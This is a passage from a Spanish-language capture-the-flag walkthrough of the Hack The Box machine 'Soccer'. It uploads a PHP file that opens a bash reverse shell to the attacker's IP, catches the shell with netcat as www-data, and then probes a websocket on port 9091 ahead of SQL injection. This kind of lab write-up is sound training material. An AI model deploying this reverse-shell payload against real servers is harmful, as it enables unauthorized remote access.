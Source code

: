 Nos creamos nuestro archivo ***php*** con carga util para poder establecer una shell reversa atraves de nuestro archivo, el comando es el siguiente:


```php
<?php
  system("bash -c 'bash -i >& /dev/tcp/10.10.14.33/443 0>&1'")
?>
 ```

Lo subimos...

![upload]({{'/assets/img/Soccer/upload.png)' | relative_url}}

Una vez tenemos el archivo subido pulsamos en el para obtener la sieguiete ventana...

![shell]({{'/assets/img/Soccer/shell.png)' | relative_url}}

A continuacion no ponemos en escucha en nuestro equipo con netcat y pulsamos ***Open*** en pagina web del archivo. Asi podremos obtener nuestra ***shell*** reversa como ***www-data*** 

 ```bash
 ❯ nc -nlvp 443

listening on [any] 443 ...
connect to [10.10.14.33] from (UNKNOWN) [10.10.11.194] 53304
bash: cannot set terminal process group (1044): Inappropriate ioctl for device
bash: no job control in this shell

www-data@soccer:~/html/tiny/uploads$ whoami
whoami
www-data

www-data@soccer:~/html/tiny/uploads$ hostname -I
hostname -I
10.10.11.194 dead:beef::250:56ff:feb9:636c 
www-data@soccer:~/html/tiny/uploads$
 ```
 Aunque como el usuario ***www-data*** no encontraremos gran cosa.
 Pero recordemos que el ***puerto 9091*** estaba abierto con el servicion ***xmlmail*** posiblemente sea un ***web socket*** y lo podremos comprobar con ***websocat***

 ```bash
 ❯ websocat ws://soccer.htb:9091 -v

[INFO  websocat::lints] Auto-inserting the line mode
[INFO  websocat::stdio_threaded_peer] get_stdio_peer (threaded)
[INFO  websocat::ws_client_peer] get_ws_client_peer
[INFO  websocat::ws_client_peer] Connected to ws
 ```
Y efectivamente, tenemos conectividad.
Es hora de hacer una busque en ***google***, que tanto nos ayuda.
Podermos dar con el siguiente -> [link](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html), que indica como podemos hacer una sql injection al web socket redirigiendo la peticional mismo ***web socket*** con un script en python.

